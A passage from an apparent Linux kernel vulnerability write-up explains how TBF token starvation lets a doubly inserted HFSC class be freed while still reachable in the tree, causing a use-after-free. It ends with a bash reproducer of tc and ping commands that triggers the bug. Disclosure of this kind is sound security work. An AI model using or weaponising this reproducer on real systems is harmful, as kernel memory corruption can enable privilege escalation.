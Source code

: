 ```c
		now = ktime_get_ns();
		toks = min_t(s64, now - q->t_c, q->buffer);

                // ..

		toks -= (s64) psched_l2t_ns(&q->rate, len);

		if ((toks|ptoks) >= 0) { // [1]
			skb = qdisc_dequeue_peeked(q->qdisc);
			if (unlikely(!skb))
				return NULL;

			q->t_c = now;
			q->tokens = toks;
			q->ptokens = ptoks;
			qdisc_qstats_backlog_dec(sch, skb);
			sch->q.qlen--;
			qdisc_bstats_update(sch, skb);
			return skb;
		}

		qdisc_watchdog_schedule_ns(&q->watchdog,
					   now + max_t(long, -toks, -ptoks)); // [2]

		qdisc_qstats_overlimit(sch);
	}
	return NULL;
}
```

In `tbf_dequeue()`, if the number of remaining tokens is less than zero, `[1]` the qdisc will reschedule itself for later, `[2]` and from this moment on the interface will be unable to dequeue packets. The number of tokens in TBF is user-controllable and can be minimized in [tbf_change()](https://elixir.bootlin.com/linux/v6.6.90/source/net/sched/sch_tbf.c#L356).

This is particulary useful in the double class insertion case, because if the network interface is unable to dequeue packets, the infinite loop can be avoided, the class can be freed (remaining accessible in the RBTree due to the double insertion), and a Use-After-Free can be triggered when a new class is inserted into the tree.

Here is a reproducer to trigger a UAF when the kernel is compiled with KASAN:

```bash
#!/bin/bash

#   
#   TBF qdisc (1:0) --> HFSC qdisc (2:0) --> HFSC class (2:1) --> NETEM qdisc (3:0)
#                                        `-> HFSC class (2:2)
#

# Prevent packets from being dequeued
tc qdisc add dev lo root handle 1: tbf rate 8bit burst 100b latency 1s
tc qdisc add dev lo parent 1:0 handle 2:0 hfsc
ping -I lo -f -c10 -s48 -W0.001 127.0.0.1

# Setup the vulnerable configuration
tc class add dev lo parent 2:0 classid 2:1 hfsc rt m2 20Kbit
tc qdisc add dev lo parent 2:1 handle 3:0 netem duplicate 100%
tc class add dev lo parent 2:0 classid 2:2 hfsc rt m2 20Kbit

tc filter add dev lo parent 2:0 protocol ip prio 1 u32 match ip dst 127.0.0.1 flowid 2:1
tc filter add dev lo parent 2:0 protocol ip prio 2 u32 match ip dst 127.0.0.2 flowid 2:2

# Class 2:1 is inserted twice into the eligible tree
ping -I lo -f -c1 -s48 -W0.001 127.0.0.1
```
